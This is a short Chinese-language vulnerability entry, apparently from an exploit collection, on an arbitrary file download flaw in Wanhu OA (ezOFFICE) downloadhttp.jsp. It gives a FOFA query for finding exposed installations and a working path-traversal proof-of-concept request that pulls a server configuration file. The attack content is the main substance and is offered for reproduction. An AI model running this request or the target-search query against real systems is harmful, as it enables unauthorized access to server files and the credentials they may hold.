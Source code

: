 # 万户OA downloadhttp.jsp 任意文件下载漏洞

## 漏洞描述

万户OA downloadhttp.jsp文件存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

<a-checkbox checked>万户OA </a-checkbox></br>

## FOFA

<a-checkbox checked>app="万户网络-ezOFFICE"</a-checkbox></br>

## 漏洞复现

产品页面

![img](../../../.vuepress/public/img/1631323798806-958050db-05f6-47ca-95b4-74487ee67a66-20220313174643131.png)

验证POC

```javascript
/defaultroot/site/templatemanager/downloadhttp.jsp?fileName=../public/edit/jsp/config.jsp
```

![img](../../../.vuepress/public/img/1646039844800-07a00418-a36e-466c-a6ad-da6d8a9621ea.png)